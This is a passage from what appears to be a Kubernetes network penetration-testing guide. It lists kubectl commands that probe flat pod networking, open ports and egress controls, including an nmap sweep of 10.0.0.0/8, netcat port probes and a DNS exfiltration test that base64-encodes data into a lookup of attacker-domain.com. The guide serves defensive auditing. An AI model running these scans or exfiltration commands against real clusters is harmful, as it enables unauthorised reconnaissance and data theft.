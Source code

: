 ```bash
```

### 3. Flat Network Testing
**Vulnerability:** Default flat networking allowing unrestricted pod-to-pod communication.

**Testing Commands:**
```bash
# Test cross-namespace communication
kubectl run nettest-source --image=busybox --rm --restart=Never -it -- wget -qO- http://target-service.other-namespace.svc.cluster.local

# Scan internal networks
kubectl run nmap-test --image=instrumentisto/nmap --rm --restart=Never -it -- nmap -sn 10.0.0.0/8

# Test access to cluster services
kubectl run cluster-test --image=busybox --rm --restart=Never -it -- nslookup kubernetes.default.svc.cluster.local

# Check DNS resolution capabilities
kubectl run dns-test --image=busybox --rm --restart=Never -it -- nslookup google.com

# Test egress to external services
kubectl run egress-test --image=curlimages/curl --rm --restart=Never -it -- curl -I https://www.google.com
```

### 4. Port and Protocol Restrictions
**Vulnerability:** No restrictions on network ports or protocols.

**Testing Commands:**
```bash
# Test different protocols and ports
kubectl run protocol-test --image=busybox --rm --restart=Never -it -- nc -zv target-ip 22
kubectl run protocol-test --image=busybox --rm --restart=Never -it -- nc -zv target-ip 443
kubectl run protocol-test --image=busybox --rm --restart=Never -it -- nc -zv target-ip 3306

# Check for UDP traffic restrictions
kubectl run udp-test --image=busybox --rm --restart=Never -it -- nc -u -zv target-ip 53

# Test ICMP (ping) restrictions
kubectl run ping-test --image=busybox --rm --restart=Never -it -- ping -c 1 target-ip
```

### 5. Ingress and Egress Controls
**Vulnerability:** Unrestricted ingress and egress traffic.

**Testing Commands:**
```bash
# Check ingress controllers and rules
kubectl get ingress -A
kubectl get services -A | grep LoadBalancer
kubectl get services -A | grep NodePort

# Test external access to services
curl -I http://external-service-ip

# Check for egress restrictions
kubectl run egress-test --image=curlimages/curl --rm --restart=Never -it -- curl -I https://malicious-site.com

# DNS exfiltration test
kubectl run dns-exfil --image=busybox --rm --restart=Never -it -- nslookup $(echo "secret-data" | base64).attacker-domain.com
```
